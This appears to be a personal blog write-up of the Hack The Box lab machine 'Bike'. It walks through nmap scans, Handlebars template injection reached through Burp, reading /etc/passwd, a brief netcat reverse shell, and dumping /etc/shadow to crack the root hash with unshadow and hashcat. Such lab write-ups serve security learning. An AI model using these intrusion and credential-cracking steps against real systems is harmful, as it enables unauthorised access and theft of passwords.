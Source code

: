 ```yaml
---
layout: post
title: bike
categories: htb
tags:
- htb
- starting_point
- ignition
- ssti
- handlebars
author: nicoliboli
description: starting point | tier 1 | box 5
date: '2025-07-02 07:51:01 -0400'
---
```

# enumeration

```
$ nmap 10.129.165.133         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-01 07:11 EDT
Nmap scan report for 10.129.165.133
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.29 seconds

$ nmap -p- --min-rate 1000 10.129.165.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-01 07:11 EDT
Nmap scan report for 10.129.165.133
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 71.36 seconds

$ nmap -sC -sV -p 22,80 10.129.165.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-01 07:11 EDT
Nmap scan report for 10.129.165.133
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.32 seconds
```

## port 80 - http

use Wappalyzer to look at the technologies the website is using. i've never used it before this, but the question specifically says to do so

![bike_wappalyzer](/assets/img/bike_wappalyzer.png)

didn't get anything with burpsuite, so time to start testing inputs. i tried sqli and xss, but why i got to ssti, i get an error

![bike_ssti](/assets/img/bike_ssti.png)

that's a good sign. so not i know that the template library being used is `handlebars`. [here](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) there is a handlebars SSTI. i put the string in the `Decoder` to url encode it and sent it via `Repeater`

![bike_hacktricks_handlebars](/assets/img/bike_hacktricks_handlebars.png)

![bike_burp_decoder](/assets/img/bike_burp_decoder.png)

![bike_burp_exec](/assets/img/bike_burp_exec.png)

that would have been too easy, so of course there's an error

![bike_require](/assets/img/bike_require.png)

at this point i started googling and found [this](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) writeup about a 2019 Shopify RCE. i got execution when i changed `return require('child_process').exec('whoami');` to `return JSON.stringify(process.env);` so at least i knew i was on the right track

![bike_shopify](/assets/img/bike_shopify.png)

now i needed to know more about why require wasn't working, so i looked at the docs [here](https://nodejs.org/api/globals.html) and found out it was a scope issue. there are global objects available and `require` *appears* to be one but is a built-in object that is apart of javascript instead... (literally says that in the docs). the `process` object looks promising (and is actually global). try a test with a nodejs payload that uses process to read `/etc/passwd` (got it at hacktricks again and just CTRL+F'd for `process` until i found a payload that looked like it would work). encoded the payload, sent it, and got the `/etc/passwd` contents

![bike_burp_decoder1](/assets/img/bike_burp_decoder1.png)

![bike_burp_passwd](/assets/img/bike_burp_passwd.png)

now try with a reverse shell. had to try a couple and unfortunately there is a timeout (like a couple of seconds) before my shell gets dead

![bike_burp_revshell](/assets/img/bike_burp_revshell.png)

```
$ nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.189] from (UNKNOWN) [10.129.165.133] 58524
sh: 0: can't access tty; job control turned off
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:f0:98 brd ff:ff:ff:ff:ff:ff
    inet 10.129.165.133/16 brd 10.129.255.255 scope global dynamic ens160
       valid_lft 2637sec preferred_lft 2637sec
    inet6 dead:beef::250:56ff:fe94:f098/64 scope global dynamic mngtmpaddr 
       valid_lft 86394sec preferred_lft 14394sec
    inet6 fe80::250:56ff:fe94:f098/64 scope link 
       valid_lft forever preferred_lft forever
```

so instead see if i can crack anything offline in `/etc/shadow`

![bike_shadow](/assets/img/bike_shadow.png)

save off both `/etc/passwd` and `/etc/shadow` and use `unshadow` to combine them. since root is the only one with a hash, i just deleted everything but that line (if you don't delete the lines, `hashcat` will give you a `Token length exception` when it starts to run). then i looked for the hash type in `hashcat`'s help menu and queued up a job and let that run. during said run i realized that i can also just `cat` the flag... (in hindsight i probably should've poked around first before just assuming that the flag was at `/root/flag.txt`, but i was right the first time so imma take the win)

```
$ unshadow bike_passwd bike_shadow > bike_unshadowd.hash

$ cat bike_unshadowd.hash                                    
root:$6$0SQCmOY2y69saJ03$KNzYMiIiXMJxWzCWEl2jhkvevVCaWH7RVfhW8ep2sTbta1Z6.H/d9PhIWtXM7yZbLFCJY6dBmJ3LurfW2eh/X0:0:0:root:/root:/bin/bash

$ hashcat --help | grep '$6' 
   1800 | sha512crypt $6$, SHA512 (Unix)                             | Operating System
  22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)                      | Private Key

$ hashcat -m 1800 ./bike_unshadowd.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-9700K CPU @ 3.60GHz, 2155/4374 MB (1024 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
```

![bike_flag](/assets/img/bike_flag.png)